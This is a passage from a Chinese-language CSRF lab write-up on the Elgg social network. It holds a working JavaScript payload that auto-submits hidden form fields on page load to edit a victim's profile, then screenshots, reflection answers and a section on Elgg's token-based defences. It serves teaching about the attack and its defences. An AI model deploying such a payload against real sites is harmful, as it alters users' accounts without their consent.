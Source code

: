 ```
    	var fields;
    	// The following are form entries that need to be filled out
    	// by attackers. The entries are made hidden, so the victim
    	// won't be able to see them.
    	fields += "<input type='hidden' name='name' value='Boby'>";
    	fields += "<input type='hidden' name='description' value='test'>";
    	fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
    	fields += "<input type='hidden' name='briefdescription' value='test'>";
    	fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    	fields += "<input type='hidden' name='location' value='test'>";
    	fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
    	fields += "<input type='hidden' name='guid' value='40'>";
    	var url = "http://www.csrflabelgg.com/action/profile/edit";
    	post(url,fields);
    }
    // invoke csrf_hack() after the page is loaded.
    window.onload = function() { csrf_hack();}
    </script>
    </body></html>
```

Boby用户访问前：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186567992?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Boby用户访问攻击url：www.csrflabattacker.com/csrf.html

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430792231780?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Boby用户访问后：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186621990?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

#### 思考 

问题1：Alice用户使用csrf攻击boby用户，需要知道Boby用户的guid，但是Alice没有Boby的密码，她可以通过什么办法来获取Boby用户的guid？

>    Alice可以先通过一个类似实验1这样的CSRF攻击来获取Boby用户的guid。

问题2：如果Alice想通过发送一个URL，不论是谁点击，谁就会受到CSRF攻击，受害者就会自动修改自己的资料，请解释一下要如何成功做到这样？

 >   首先，要是CSRF攻击成功的前提是必须拥有用户的guid，我们可以通过使用csrf来先获取用户的guid，然后自动提交到guid的位置，这样不论是谁，只要他没有退出elgg系统，就访问了我们的攻击url就会自动编辑他们的资料；

### lab3 Elgg系统的CSRF防御 

Elgg系统中有一个针对CSRF内置的防御机制，上面的实验，我们注释了防御机制来攻击的！

针对CSRF的防御并不难，这里有几个常见的方法：

> 加密令牌：web应用程序可以在网页中嵌入一个加密的令牌，所有的请求都包含这个加密令牌，由于跨站请求无法获取这个令牌，所以伪造的请求很容易就被服务器识别；

>	Referer头途径：使用web应用程序也可以验证请求来源页面的Referer，然后由于隐私考虑，这个referer经常被客户端过滤；

Elgg系统就是使用 加密令牌 机制保护系统；它嵌入两个参数 __elgg_ts 和 __elgg_token，这个我们在之前的LiveHttpHeader抓包中可以看到；
